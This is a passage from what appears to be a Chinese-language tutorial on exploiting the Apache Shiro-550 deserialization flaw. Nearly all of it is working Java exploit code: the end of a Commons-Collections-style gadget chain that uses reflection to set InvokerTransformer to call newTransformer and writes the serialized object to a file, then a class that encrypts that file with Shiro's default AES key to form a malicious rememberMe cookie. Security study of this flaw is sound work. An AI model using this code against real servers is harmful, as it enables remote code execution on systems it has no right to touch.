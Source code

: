 ```java
        expMap.put(tiedMapEntry,"valueTest");
        outerMap.remove(templates);
        // 通过反射修改iMethodName值为newTransformer
        Field f = invokerTransformer.getClass().getDeclaredField("iMethodName");
        f.setAccessible(true);
        f.set(invokerTransformer, "newTransformer");
        FileOutputStream fileOutputStream = new FileOutputStream("1.txt");
        // 创建并实例化对象输出流
        ObjectOutputStream out = new ObjectOutputStream(fileOutputStream);
        out.writeObject(expMap);

    }
    /*
     * 服务端
     *  */
    public void unserialize() throws Exception{
        // 创建并实例化文件输入流
        FileInputStream fileInputStream = new FileInputStream("1.txt");
        // 创建并实例化对象输入流
        ObjectInputStream in = new ObjectInputStream(fileInputStream);
        in.readObject();
    }
}
```

根据对应的`AbstractRememberMeManager#encrypt()`方法编写加密
```java
package com.shiro;

import com.sun.org.apache.xerces.internal.impl.dv.util.Base64;
import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.util.ByteSource;

import java.io.ByteArrayOutputStream;
import java.io.FileInputStream;
import java.io.InputStream;

/**
 * Created by dotast on 2022/10/10 10:45
 */
public class Shiro550 {
    public static void main(String[] args) throws Exception {
        String path = "1.txt";
        byte[] key = Base64.decode("kPH+bIxk5D2deZiIxcaaaA==");
        AesCipherService aes = new AesCipherService();
        ByteSource ciphertext = aes.encrypt(getBytes(path), key);
        System.out.printf(ciphertext.toString());
    }


    public static byte[] getBytes(String path) throws Exception{
        InputStream inputStream = new FileInputStream(path);
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        int n = 0;
        while ((n=inputStream.read())!=-1){
            byteArrayOutputStream.write(n);
        }
        byte[] bytes = byteArrayOutputStream.toByteArray();
        return bytes;

    }
}
```
